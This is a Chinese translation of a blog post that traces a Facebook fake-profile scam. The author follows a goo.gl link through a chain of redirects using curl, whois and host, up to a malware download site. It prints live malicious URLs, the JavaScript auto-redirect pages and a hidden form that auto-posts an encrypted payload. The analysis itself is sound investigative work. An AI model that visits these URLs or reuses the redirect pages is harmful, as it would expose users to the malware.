

# 恶意软件注入剖析

> 原文：<https://medium.com/hackernoon/anatomy-of-a-malware-injection-e463dc68a452>

今天，我收到了一些来自脸书年轻女性的非常可疑的“好友请求”,她们没有任何共同好友，并且有非常性感的个人资料照片。当然它们是假的，但我很好奇(安全地)探索兔子洞底部有什么。这是一次令人兴奋的旅行。

这一旅程涉及脸书、谷歌、亚马逊以及数十家其他网络主机和注册服务商，跨越了从美国到印尼、德国和其他地方的全球。这是一个来自一系列技术栈和服务的接触点的奇怪而优雅的集成，所有这些都是为了让一个渴望性按摩的孤独男人意外地在他的浏览器中安装一些软件。


Here’s “Blanca Aline Laine” (made up name)

上面我们看到了假的个人资料，因为被脸书。我和那里的诈骗小组还是朋友，这很有帮助。活泼的图片(但不是 NSFW，像其他一些人一样)和简介文本表明她 A)住在我的城市(红杉城)，B)可以开车去客户家，给“5 美元的性按摩套餐”。多好的交易啊。

我今天看到的大多数虚假简介都包含了 goo.gl URL 缩短链接，试图掩盖目的地，并将其作为简介图片说明的一部分。我想知道当脸书发现 goo.gl 链接到黑洞时，它是否会自动提醒谷歌。

我在命令行上试着索引它去了哪里。

**警告:请不要在你的浏览器中点击以下任何链接。它们由恶意软件供应商操作，可能会损害您的计算机。**

第一站是谷歌(耶！)

```
$ curl -v -v  [https://goo.gl/7uvoPS](https://goo.gl/7uvoPS)
*   Trying 172.217.6.78...
* TCP_NODELAY set
* Connected to goo.gl (172.217.6.78) port 443 (#0)
* TLS 1.2 connection using TLS_ECDHE_ECDSA_WITH_AES_128_GCM_SHA256
* Server certificate: *.google.com
* Server certificate: Google Internet Authority G2
* Server certificate: GeoTrust Global CA
> GET /7uvoPS HTTP/1.1
> Host: goo.gl
> User-Agent: curl/7.54.0
> Accept: */*
> 
< HTTP/1.1 301 Moved Permanently
< Strict-Transport-Security: max-age=63072000; includeSubDomains; preload
< Content-Type: text/html; charset=UTF-8
< Cache-Control: no-cache, no-store, max-age=0, must-revalidate
< Pragma: no-cache
< Expires: Mon, 01 Jan 1990 00:00:00 GMT
< Date: Thu, 10 Aug 2017 03:47:16 GMT
< Location: [http://gillian.pucukharum.top/SHM2bkh2N3lZSFRHOEZtVDRoN0VUUT09_95816436.do](http://gillian.pucukharum.top/SHM2bkh2N3lZSFRHOEZtVDRoN0VUUT09_95816436.do)
< X-Content-Type-Options: nosniff
< X-Frame-Options: SAMEORIGIN
< X-XSS-Protection: 1; mode=block
< Server: GSE
< Alt-Svc: quic=":443"; ma=2592000; v="39,38,37,35"
< Accept-Ranges: none
< Vary: Accept-Encoding
< Transfer-Encoding: chunked
< 
<HTML>
<HEAD>
<TITLE>Moved Permanently</TITLE>
</HEAD>
<BODY BGCOLOR="#FFFFFF" TEXT="#000000">
<H1>Moved Permanently</H1>
The document has moved <A HREF="[http://gillian.pucukharum.top/SHM2bkh2N3lZSFRHOEZtVDRoN0VUUT09_95816436.do](http://gillian.pucukharum.top/SHM2bkh2N3lZSFRHOEZtVDRoN0VUUT09_95816436.do)">here</A>.
</BODY>
</HTML>
```

简单的 301 永久重定向(注意 QUIC 广告！).重定向到 TLD——等等，什么？我从没见过合法的。顶级网站。是的，检查[垃圾邮件](https://hackernoon.com/tagged/spam)豪斯-。名列前茅的是一个[“十大”垃圾邮件 TLD](https://www.spamhaus.org/statistics/tlds/) 。。的确顶级！TLD 由久负盛名的“江苏邦宁科技公司”经营。好吧，我想知道谁拥有这个域名。

```
$ whois pucukharum.top
Domain Name: pucukharum.top
Registry Domain ID: D20170405G10001G_05028476-TOP
Registrar WHOIS Server: whois.namecheap.com
Registrar URL: [https://www.namecheap.com/](https://www.namecheap.com/)
Updated Date: 2017-04-05T05:36:50Z
Creation Date: 2017-04-05T05:36:23Z
Registry Expiry Date: 2018-04-05T05:36:23Z
Registrar: Namecheap Inc.
Registrar IANA ID: 1068
Registrar Abuse Contact Email: [abuse@namecheap.com](mailto:abuse@namecheap.com)
Registrar Abuse Contact Phone: +1.6613102107
Domain Status: clientTransferProhibited [https://www.icann.org/epp#clientTransferProhibited](https://www.icann.org/epp#clientTransferProhibited)
Registry Registrant ID: bd76px9aqmn8dhij
Registrant Name: WhoisGuard Protected
Registrant Organization: WhoisGuard, Inc.
Registrant Street: P.O. Box 0823-03411
Registrant City: Panama
Registrant State/Province: Panama
Registrant Postal Code: 0
Registrant Country: PA
Registrant Phone: +507.8365503
Registrant Phone Ext:
Registrant Fax: +51.17057182
Registrant Fax Ext:
Registrant Email: [fbf6f8770e9f42d3bac4e0f0740d12f2.protect@whoisguard.com](mailto:fbf6f8770e9f42d3bac4e0f0740d12f2.protect@whoisguard.com)
Registry Admin ID: 47ukg1inpzur0syp
Admin Name: WhoisGuard Protected
Admin Organization: WhoisGuard, Inc.
Admin Street: P.O. Box 0823-03411
Admin City: Panama
Admin State/Province: Panama
Admin Postal Code: 0
Admin Country: PA
Admin Phone: +507.8365503
Admin Phone Ext:
Admin Fax: +51.17057182
Admin Fax Ext:
Admin Email: [fbf6f8770e9f42d3bac4e0f0740d12f2.protect@whoisguard.com](mailto:fbf6f8770e9f42d3bac4e0f0740d12f2.protect@whoisguard.com)
Registry Tech ID: 6wpuqoght8t1dv3p
Tech Name: WhoisGuard Protected
Tech Organization: WhoisGuard, Inc.
Tech Street: P.O. Box 0823-03411
Tech City: Panama
Tech State/Province: Panama
Tech Postal Code: 0
Tech Country: PA
Tech Phone: +507.8365503
Tech Phone Ext:
Tech Fax: +51.17057182
Tech Fax Ext:
Tech Email: [fbf6f8770e9f42d3bac4e0f0740d12f2.protect@whoisguard.com](mailto:fbf6f8770e9f42d3bac4e0f0740d12f2.protect@whoisguard.com)
Name Server: dns1.registrar-servers.com
Name Server: dns2.registrar-servers.com
DNSSEC: unsigned
URL of the ICANN Whois Inaccuracy Complaint Form: [https://www.icann.org/wicf/](https://www.icann.org/wicf/)
>>> Last update of WHOIS database: 2017-08-10T04:13:29Z <<<For more information on Whois status codes, please visit [https://icann.org/epp](https://icann.org/epp)NOTICE: The expiration date displayed in this record is the date the
registrar's sponsorship of the domain name registration in the registry is
currently set to expire. This date does not necessarily reflect the expiration
date of the domain name registrant's agreement with the sponsoring
registrar.  Users may consult the sponsoring registrar's Whois database to
view the registrar's reported date of expiration for this registration.TERMS OF USE: The information in the Whois database is collected through ICANN-accredited registrars. Jiangsu bangning science & technology Co., Ltd(“BANGNING”) make this information available to you and do not guarantee its accuracy or completeness. By submitting a whois query, you agree to abide by the following terms of use: you agree that you may use this data only for lawful purposes and that under no circumstances will you use this data to:  (1) to allow， enable， or otherwise support the transmission of mass unsolicited， commercial advertising or solicitations via direct mail， electronic mail， or by telephone; (2) in contravention of any applicable data and privacy protection acts; or (3) to enable high volume， automated， electronic processes that apply to BANGNING (or its computer systems). Compilation， repackaging， dissemination， or other use of the WHOIS database in its entirety， or of a substantial portion thereof， is not allowed without BANGNING prior written permission. You agree not to use electronic processes that are automated and high-volume to access or query the whois database except as reasonably necessary to register domain names or modify existing registrations. BANGNING reserves the right to restrict your access to the whois database in its sole discretion to ensure operational stability.  BANGNING may restrict or terminate your access to the whois database for failure to abide by these terms of use. BANGNING reserves the right to modify these terms at any time without prior or subsequent notification of any kind.
```

啊，这是一个廉价的注册域名，受 WhoisGuard 保护。网站主页坚持说“正在维护”。嗯嗯…

```
$ host gillian.pucukharum.top
gillian.pucukharum.top has address 138.197.209.244
$ whois 138.197.209.244
...
NetRange:       138.197.0.0 - 138.197.255.255
CIDR:           138.197.0.0/16
NetName:        DIGITALOCEAN-16
```

这是保存页:



```
$ curl -v -v [http://gillian.pucukharum.top/SHM2bkh2N3lZSFRHOEZtVDRoN0VUUT09_95816436.do](http://gillian.pucukharum.top/SHM2bkh2N3lZSFRHOEZtVDRoN0VUUT09_95816436.do)
*   Trying 138.197.209.244...
* TCP_NODELAY set
* Connected to gillian.pucukharum.top (138.197.209.244) port 80 (#0)
> GET /SHM2bkh2N3lZSFRHOEZtVDRoN0VUUT09_95816436.do HTTP/1.1
> Host: gillian.pucukharum.top
> User-Agent: curl/7.54.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Server: nginx/1.10.1 (Ubuntu)
< Date: Thu, 10 Aug 2017 03:47:54 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
<<head><meta name="referrer" content="never"><noscript><META http-equiv="refresh" content="0;URL=ngapax.php?user=SHM2bkh2N3lZSFRHOEZtVDRoN0VUUT09&grup=UkwwRktNQ2IzK2Y5Tk5rRko2VDI5UT09"></noscript></head><script>window.opener = null; location.replace("ngapax.php?user=SHM2bkh2N3lZSFRHOEZtVDRoN0VUUT09&grup=UkwwRktNQ2IzK2Y5Tk5rRko2VDI5UT09")</script>
```

这是一个从. do 文件(通常是 Java web struts)返回的 200 页……但只是在 DigitalOcean 托管的机器上对同一域上的 PHP 脚本进行了元刷新。奇怪。好的 yyyy…

```
$ curl -v -v "[http://gillian.pucukharum.top/ngapax.php?user=SHM2bkh2N3lZSFRHOEZtVDRoN0VUUT09&grup=UkwwRktNQ2IzK2Y5Tk5rRko2VDI5UT09](http://gillian.pucukharum.top/ngapax.php?user=SHM2bkh2N3lZSFRHOEZtVDRoN0VUUT09&grup=UkwwRktNQ2IzK2Y5Tk5rRko2VDI5UT09)"
*   Trying 138.197.209.244...
* TCP_NODELAY set
* Connected to gillian.pucukharum.top (138.197.209.244) port 80 (#0)
> GET /ngapax.php?user=SHM2bkh2N3lZSFRHOEZtVDRoN0VUUT09&grup=UkwwRktNQ2IzK2Y5Tk5rRko2VDI5UT09 HTTP/1.1
> Host: gillian.pucukharum.top
> User-Agent: curl/7.54.0
> Accept: */*
> 
< HTTP/1.1 302 Found
< Server: nginx/1.10.1 (Ubuntu)
< Date: Thu, 10 Aug 2017 03:49:16 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< Location: [http://digitalz.review/ngapax.php?user=SHM2bkh2N3lZSFRHOEZtVDRoN0VUUT09&grup=UkwwRktNQ2IzK2Y5Tk5rRko2VDI5UT09](http://digitalz.review/ngapax.php?user=SHM2bkh2N3lZSFRHOEZtVDRoN0VUUT09&grup=UkwwRktNQ2IzK2Y5Tk5rRko2VDI5UT09)
```

好吧…这里又是一个奇怪的 TLD。另一个名字是廉价域名。由数字海洋主办。在域和 IP 上都有相同的“停机维护”页面。奇怪的熟悉...

```
$ curl -v -v "[http://digitalz.review/ngapax.php?user=SHM2bkh2N3lZSFRHOEZtVDRoN0VUUT09&grup=UkwwRktNQ2IzK2Y5Tk5rRko2VDI5UT09](http://digitalz.review/ngapax.php?user=SHM2bkh2N3lZSFRHOEZtVDRoN0VUUT09&grup=UkwwRktNQ2IzK2Y5Tk5rRko2VDI5UT09)"
*   Trying 138.197.207.100...
* TCP_NODELAY set
* Connected to digitalz.review (138.197.207.100) port 80 (#0)
> GET /ngapax.php?user=SHM2bkh2N3lZSFRHOEZtVDRoN0VUUT09&grup=UkwwRktNQ2IzK2Y5Tk5rRko2VDI5UT09 HTTP/1.1
> Host: digitalz.review
> User-Agent: curl/7.54.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Server: nginx/1.10.3 (Ubuntu)
< Date: Thu, 10 Aug 2017 03:49:29 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
<<!DOCTYPE html>
        <html lang="en">
        <head>
         <title> Please Wait...</title>
         <meta charset="utf-8">
         <meta http-equiv="X-UA-Compatible" content="IE=edge">
         <meta name="robots" content="noindex, nofollow"><noscript> <style>html{display:none;}</style><meta http-equiv="refresh" content="0;[http://ssl-cd.com/?a=47752&c=90645&s1=&s2=NGAPAX&s3=MASTERMIND&s4=&s5=mastermind1502336969](http://ssl-cd.com/?a=47752&c=90645&s1=&s2=NGAPAX&s3=MASTERMIND&s4=&s5=mastermind1502336969)"></noscript><script type = "text/javascript">
window.setTimeout("autoClick()", 500); // 10 seconds delay
function autoClick() {
var linkPage = document.getElementById("dynLink").href;
window.location.href = linkPage;
}
</script>  
          </head>
          <Body>
<a href="[http://ssl-cd.com/?a=47752&c=90645&s1=&s2=NGAPAX&s3=MASTERMIND&s4=&s5=mastermind1502336969](http://ssl-cd.com/?a=47752&c=90645&s1=&s2=NGAPAX&s3=MASTERMIND&s4=&s5=mastermind1502336969) " id="dynLink"></a>

          </Body>
        </html>
```

在这里，我们得到了另一个领域的元更新，由 SoftLayer 托管并由印度尼西亚人(？！)，还一个 1x1 的 JPG(有何不可。GIF？)由 gd-jpeg 创建。

看起来这个域名是由 key-systems.net(德国)注册的，并且有 AWS 提供的 DNS 服务。

```
$ whois ssl-cd.com
   Domain Name: SSL-CD.COM
   Registry Domain ID: 2068776467_DOMAIN_COM-VRSN
   Registrar WHOIS Server: whois.rrpproxy.net
   Registrar URL: [http://www.key-systems.net](http://www.key-systems.net)
   Updated Date: 2016-12-13T09:18:01Z
   Creation Date: 2016-10-25T10:04:13Z
   Registry Expiry Date: 2017-10-25T10:04:13Z
   Registrar: Key-Systems GmbH
   Registrar IANA ID: 269
   Registrar Abuse Contact Email: [abuse@key-systems.net](mailto:abuse@key-systems.net)
   Registrar Abuse Contact Phone: +49.68949396850
   Domain Status: ok [https://icann.org/epp#ok](https://icann.org/epp#ok)
   Name Server: NS-1151.AWSDNS-15.ORG
   Name Server: NS-1875.AWSDNS-42.CO.UK
   Name Server: NS-24.AWSDNS-03.COM
   Name Server: NS-777.AWSDNS-33.NET
   DNSSEC: unsigned
   URL of the ICANN Whois Inaccuracy Complaint Form: [https://www.icann.org/wicf/](https://www.icann.org/wicf/)
>>> Last update of whois database: 2017-08-10T04:55:21Z <<<
```

果然，网站本身也托管在 AWS 上。

```
$ host ssl-cd.com
ssl-cd.com has address 52.202.232.0
ssl-cd.com has address 54.174.134.18
$ whois 52.202.232.0
...
NetRange:       52.192.0.0 - 52.223.255.255
CIDR:           52.192.0.0/11
NetName:        AT-88-Z
NetHandle:      NET-52-192-0-0-1
Parent:         NET52 (NET-52-0-0-0-0)
NetType:        Direct Allocation
OriginAS:
Organization:   Amazon Technologies Inc. (AT-88-Z)
RegDate:        2015-09-02
Updated:        2015-09-02
Ref:            [https://whois.arin.net/rest/net/NET-52-192-0-0-1](https://whois.arin.net/rest/net/NET-52-192-0-0-1)
```

这是给 cdprivate.com 的 302…

```
$ curl -v -v "[http://ssl-cd.com/?a=47752&c=90645&s1=&s2=NGAPAX&s3=MASTERMIND&s4=&s5=mastermind1502336969](http://ssl-cd.com/?a=47752&c=90645&s1=&s2=NGAPAX&s3=MASTERMIND&s4=&s5=mastermind1502336969)"
*   Trying 52.202.232.0...
* TCP_NODELAY set
* Connected to ssl-cd.com (52.202.232.0) port 80 (#0)
> GET /?a=47752&c=90645&s1=&s2=NGAPAX&s3=MASTERMIND&s4=&s5=mastermind1502336969 HTTP/1.1
> Host: ssl-cd.com
> User-Agent: curl/7.54.0
> Accept: */*
> 
< HTTP/1.1 302 Found
< Cache-Control: private
< Content-Type: text/html; charset=utf-8
< Location: [http://cdprivate.com/?a=47752&c=90645&s1=&s2=NGAPAX&s3=MASTERMIND&s4=&s5=mastermind1502336969&ckmguid=99274524-c7b2-409c-bdae-227123f22acb](http://cdprivate.com/?a=47752&c=90645&s1=&s2=NGAPAX&s3=MASTERMIND&s4=&s5=mastermind1502336969&ckmguid=99274524-c7b2-409c-bdae-227123f22acb)
< Date: Thu, 10 Aug 2017 03:50:48 GMT
< Content-Length: 283
< 
<html><head><title>Object moved</title></head><body>
<h2>Object moved to <a href="[http://cdprivate.com/?a=47752&amp;c=90645&amp;s1=&amp;s2=NGAPAX&amp;s3=MASTERMIND&amp;s4=&amp;s5=mastermind1502336969&amp;ckmguid=99274524-c7b2-409c-bdae-227123f22acb](http://cdprivate.com/?a=47752&amp;c=90645&amp;s1=&amp;s2=NGAPAX&amp;s3=MASTERMIND&amp;s4=&amp;s5=mastermind1502336969&amp;ckmguid=99274524-c7b2-409c-bdae-227123f22acb)">here</a>.</h2>
</body></html>
```

也由 key-systems.net 注册，并通过 Route53 DNS 托管在 AWS 上。

```
$ host cdprivate.com
cdprivate.com has address 52.202.232.0
cdprivate.com has address 54.174.134.18
```

还有同一套 IP。奇怪。想知道为什么他们需要额外的重定向和域名…？

```
$ curl -v -v "[http://cdprivate.com/?a=47752&amp;c=90645&amp;s1=&amp;s2=NGAPAX&amp;s3=MASTERMIND&amp;s4=&amp;s5=mastermind1502336969&amp;ckmguid=99274524-c7b2-409c-bdae-227123f22acb](http://cdprivate.com/?a=47752&amp;c=90645&amp;s1=&amp;s2=NGAPAX&amp;s3=MASTERMIND&amp;s4=&amp;s5=mastermind1502336969&amp;ckmguid=99274524-c7b2-409c-bdae-227123f22acb)"
*   Trying 52.202.232.0...
* TCP_NODELAY set
* Connected to cdprivate.com (52.202.232.0) port 80 (#0)
> GET /?a=47752&amp;c=90645&amp;s1=&amp;s2=NGAPAX&amp;s3=MASTERMIND&amp;s4=&amp;s5=mastermind1502336969&amp;ckmguid=99274524-c7b2-409c-bdae-227123f22acb HTTP/1.1
> Host: cdprivate.com
> User-Agent: curl/7.54.0
> Accept: */*
> 
< HTTP/1.1 302 Found
< Cache-Control: private
< Content-Type: text/html; charset=utf-8
< Location: [http://varm.2587812.com/?kw={kw}&s1=-1&s2=6342103249](http://varm.2587812.com/?kw={kw}&s1=-1&s2=6342103249)
< p3p: CP="IDC DSP COR ADM DEVi TAIi PSA PSD IVAi IVDi CONi HIS OUR IND CNT"
< Set-Cookie: sfd=gYcMLbT3p2Qq4qjzNWkj3GBapgYL+C9YYKjchnfxHwPf4An8Fwbg3Q==; domain=.cdprivate.com; path=/; HttpOnly
< Set-Cookie: tib=Sq1clb2N/nFPTQFRAWNbtWBapgYL+C9YYKjchnfxHwPf4An8Fwbg3Q==; domain=.cdprivate.com; expires=Wed, 10-Aug-2022 03:51:44 GMT; path=/; HttpOnly
< Date: Thu, 10 Aug 2017 03:51:43 GMT
< Content-Length: 177
< 
<html><head><title>Object moved</title></head><body>
<h2>Object moved to <a href="[http://varm.2587812.com/?kw={kw}&amp;s1=-1&amp;s2=6342103249](http://varm.2587812.com/?kw={kw}&amp;s1=-1&amp;s2=6342103249)">here</a>.</h2>
</body></html>
```

这是另一个 302，这次是一个 UniRegistrar 注册的一次性域名([2587812.com](http://varm.2587812.com/?kw={kw}&s1=-1&s2=6342103249))，托管在 Linode(一个 VPS 提供商)。

```
$ host varm.2587812.com
varm.2587812.com has address 45.79.165.120
$ whois 45.79.165.120
...
NetRange:       45.79.0.0 - 45.79.255.255
CIDR:           45.79.0.0/16
NetName:        LINODE-US
NetHandle:      NET-45-79-0-0-1
Parent:         NET45 (NET-45-0-0-0-0)
NetType:        Direct Allocation
OriginAS:       AS3595, AS21844, AS8001, AS6939
Organization:   Linode (LINOD)
RegDate:        2015-04-29
Updated:        2015-04-29
Comment:        Linode, LLC
Comment:        [http://www.linode.com](http://www.linode.com)
Ref:            [https://whois.arin.net/rest/net/NET-45-79-0-0-1](https://whois.arin.net/rest/net/NET-45-79-0-0-1)
```

而现在…

```
$ curl -v -v "[http://varm.2587812.com/?kw={kw}&amp;s1=-1&amp;s2=6342103249](http://varm.2587812.com/?kw={kw}&amp;s1=-1&amp;s2=6342103249)"
*   Trying 45.79.165.120...
* TCP_NODELAY set
* Connected to varm.2587812.com (45.79.165.120) port 80 (#0)
> GET /?kw=kw&amp;s1=-1&amp;s2=6342103249 HTTP/1.1
> Host: varm.2587812.com
> User-Agent: curl/7.54.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Server: openresty/1.11.2.2
< Date: Thu, 10 Aug 2017 03:52:22 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< X-Powered-By: PHP/7.0.11
< X-ImpID: 5057a1bc-7d7f-11e7-b7cd-fa245441bcee
< 
<!DOCTYPE html><head><noscript><meta http-equiv="refresh" content="0; url=[http://NrRzz.alldownloads.hapc.gdn/?sov=627219294&hid=dtfptlrhfvpd&amp%3Bs1=-1&amp%3Bs2=6342103249&pid=1597&redid=7988&gsid=68&campaign_id=42&p_id=1597&id=XNSX.-r7988-t68&impid=5057a1bc-7d7f-11e7-b7cd-fa245441bcee&js_enabled=0&init_ev=1](http://NrRzz.alldownloads.hapc.gdn/?sov=627219294&hid=dtfptlrhfvpd&amp%3Bs1=-1&amp%3Bs2=6342103249&pid=1597&redid=7988&gsid=68&campaign_id=42&p_id=1597&id=XNSX.-r7988-t68&impid=5057a1bc-7d7f-11e7-b7cd-fa245441bcee&js_enabled=0&init_ev=1)"></noscript></head><body>
    <form id="rform" action="[http://NrRzz.alldownloads.hapc.gdn/?sov=627219294&hid=dtfptlrhfvpd&amp%3Bs1=-1&amp%3Bs2=6342103249&pid=1597&redid=7988&gsid=68&campaign_id=42&p_id=1597&id=XNSX.-r7988-t68&impid=5057a1bc-7d7f-11e7-b7cd-fa245441bcee](http://NrRzz.alldownloads.hapc.gdn/?sov=627219294&hid=dtfptlrhfvpd&amp%3Bs1=-1&amp%3Bs2=6342103249&pid=1597&redid=7988&gsid=68&campaign_id=42&p_id=1597&id=XNSX.-r7988-t68&impid=5057a1bc-7d7f-11e7-b7cd-fa245441bcee)" method="POST">
    <input type="hidden" name="payload" value="3486ca7f7cc2fa8e5c3f9a538dc2e4b2d333e39509532cb91bb778a403fc7e42f24bd7fa386c1d94eff3ec035b9d47b26e813e3cfdc27969913304f68a752b078cd33970458de7e805d6db86ed59db40548054256736e93e3935d334cd3350a23e05529a3034f3753097faf68b88b621901531e249e1ad76c7c03edba435b3ec1ad17347af85c8dc0027febb853300ee38ff4fdf7b634110b3484484828730dccc8a40dcbd339e83eb8e892b20d113bcf4198076ada77b70ab50ce4463ac38f2828f14276a2424ae67fd121299cc8796c872ea3d2e402bf3c9e9c883de8c1fc79cdf2aa5265d01dc2c9a62ed64375249bb035e57e12b2c895020f796c5979e177b6371565125ac7708522d0cee71b0801398a77ac0bafd2f467a105a03d00e7885ef953b8956d394b6a491361947278a6e83090ca1b212a5f8740c01f16a183265579674c37ba11896617fa97fb79d91432c92815cb6b38fcf1b5febdb037dd19587c532d0f65c2f466620f69d1aa6ecf08374fc4b110038a61460af7caaf0835f2c005fa35c82c56db337ac8dcdbe74cd24b86d5d31fee7d3b22c37dc73ca19b67f19553f48c6af38bd32724c3c672f6b05c80d2bce32401dac229533587f6f0573100c8e003397cb9d68dbade764a405c433a89d109c824a1ecaee60b001d10309e462a94e07a8787337e4a0f41a1f66f752e58de93bbefa444eba6cf7a09081b0d58c07d8fb7bf67b899672b9e2284a73b741e9e48642fe344c9dbe69076ec8364ccf5d33ba5b68c12149c4312ea4351463ad679266e98c43e5d9f625d50e9705047e8188e050b59b9086ebd23c93699b51bc4d731c1520f258b8552cb62933bd8765bbe600c1423c7cb8b30316ff4413c54dfe70965098a93a72353bb9f1ab48f87694b549e8603eafbc793957967c04016e018859413094d7b2ad8c5d170d11f64996e19c40b97be98064f29db0a7244a83a6376b4226809458e1973831182b134249612a1d0ff6ef2eb53f2366d71980c2b1a55bdf">
    <input type="hidden" name="js_enabled" value="1">
    <input type="hidden" name="init_ev" value="1">
    <input type="hidden" name="iv" value="b25020d0634d8814b3c70f55cd586614">
   </form><script type="text/javascript">document.getElementById('rform').submit();</script></body></html>
```

这里我们得到了一个有趣的表单自动发布，它有一个相当长的有效负载——或者一个简单的元刷新，供没有启用 JS 的人使用。GDN·TLD，我在 T2 也没听说过。猜猜在哪里。GDN 位列 SpamHaus 的“十大”垃圾邮件顶级域名？这是第一名。你从来没听说过合法的。GDN 网站是有原因的，孩子们。该注册中心由一家总部位于迪拜的公司运营，Epik domains 似乎已经注册了这个特殊的“hapc.gdn”域名。

这个优秀的网站由 VPS 的主持人 VULTR 主持。VULTR 是新泽西州 Choopa 拥有的 IP 的一个子集。

```
$ host NrRzz.alldownloads.hapc.gdn
NrRzz.alldownloads.hapc.gdn has address 45.76.0.183
$ whois 45.76.0.183
...
Vultr Holdings, LLC NET-45-76-0-0-23 (NET-45-76-0-0-2) 45.76.0.0 - 45.76.1.255
```

让我们看看等待我们的是什么！

```
$ curl -v -v "[http://NrRzz.alldownloads.hapc.gdn/?sov=627219294&hid=dtfptlrhfvpd&amp%3Bs1=-1&amp%3Bs2=6342103249&pid=1597&redid=7988&gsid=68&campaign_id=42&p_id=1597&id=XNSX.-r7988-t68&impid=5057a1bc-7d7f-11e7-b7cd-fa245441bcee&js_enabled=0&init_ev=1](http://NrRzz.alldownloads.hapc.gdn/?sov=627219294&hid=dtfptlrhfvpd&amp%3Bs1=-1&amp%3Bs2=6342103249&pid=1597&redid=7988&gsid=68&campaign_id=42&p_id=1597&id=XNSX.-r7988-t68&impid=5057a1bc-7d7f-11e7-b7cd-fa245441bcee&js_enabled=0&init_ev=1)"
*   Trying 45.76.0.183...
* TCP_NODELAY set
* Connected to NrRzz.alldownloads.hapc.gdn (45.76.0.183) port 80 (#0)
> GET /?sov=627219294&hid=dtfptlrhfvpd&amp%3Bs1=-1&amp%3Bs2=6342103249&pid=1597&redid=7988&gsid=68&campaign_id=42&p_id=1597&id=XNSX.-r7988-t68&impid=5057a1bc-7d7f-11e7-b7cd-fa245441bcee&js_enabled=0&init_ev=1 HTTP/1.1
> Host: NrRzz.alldownloads.hapc.gdn
> User-Agent: curl/7.54.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Thu, 10 Aug 2017 03:52:52 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< P3P: CP="IDC DSP COR ADM DEVi TAIi PSA PSD IVAi IVDi CONi HIS OUR IND CNT"
< Set-Cookie: ci_session=yYe%2FP9YjrIzn%2Bu0Z3TyhgIpOyB5NWge%2BFzw0PK%2Bd47rXxePI4e5TJhC%2FDyPaopsu06OsNQuC6nPznci4T6Tn8XP%2Bn4L1gtlUHxkwbyrS41bVJzsj2jMQBxyWPbUPfVzl80gh0ROdwIuz8zgrqVeBwX66iQS55mbDbu909K56xYPm2e0L8mS42AI0gwecPjMzCwCHIvS%2BbLbiu%2FNW5CQjhLulGdnSyvv51cDdzuhxqFtOUQjkCnEnaYzG6iTw1yYSIegSaxvJJ0nerom8paEU7qFHig7TRNg%2F%2FZNanyzC5u0bfnw6SkMAE85MmltKAXjKqeP6ysiuqzNERGfIqbiKVQ%3D%3D; expires=Fri, 11-Aug-2017 03:52:52 GMT; Max-Age=86400; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< X-Source: Mini
< Set-Cookie: id=XNSX.-r7988-t68; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: SITE_ID=627219294; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: sov=627219294; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: tov=deleted; expires=Thu, 01-Jan-1970 00:00:01 GMT; Max-Age=0; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: mov=downloads.mini; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: redid=7988; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: campaign_id=42; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: gsid=68; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: pid=1597; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: ref=deleted; expires=Thu, 01-Jan-1970 00:00:01 GMT; Max-Age=0; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: impid=5057a1bc-7d7f-11e7-b7cd-fa245441bcee; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: URI=sov%3D627219294%26hid%3Ddtfptlrhfvpd%26amp%253Bs1%3D-1%26amp%253Bs2%3D6342103249%26pid%3D1597%26redid%3D7988%26gsid%3D68%26campaign_id%3D42%26p_id%3D1597%26id%3DXNSX.-r7988-t68%26impid%3D5057a1bc-7d7f-11e7-b7cd-fa245441bcee%26js_enabled%3D0%26init_ev%3D1; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
< Set-Cookie: templateid=3578; expires=Fri, 11-Aug-2017 03:54:32 GMT; Max-Age=86500; path=/; domain=.NrRzz.alldownloads.hapc.gdn
